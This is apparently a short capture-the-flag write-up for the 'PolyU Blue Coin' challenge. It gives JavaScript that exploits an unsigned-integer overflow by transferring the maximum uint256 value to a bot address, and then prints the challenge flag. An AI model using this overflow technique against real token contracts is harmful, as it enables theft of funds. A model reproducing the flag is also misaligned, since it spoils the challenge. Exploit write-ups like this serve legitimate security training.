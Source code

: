 ## PolyU Blue Coin 理大藍幣

uint => overflow
const botAddress = "0x0eDfBf30ab706833Eb7E5AB0b806Af117Df48359"
const uintMax = "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
await contract.transfer(botAddress, uintMax)

PUCTF24{o8v3rfl0w_1s_4w3s0m3_qQH94Vu6KHXJqUGpQkWGrBvxJWzAdUwU}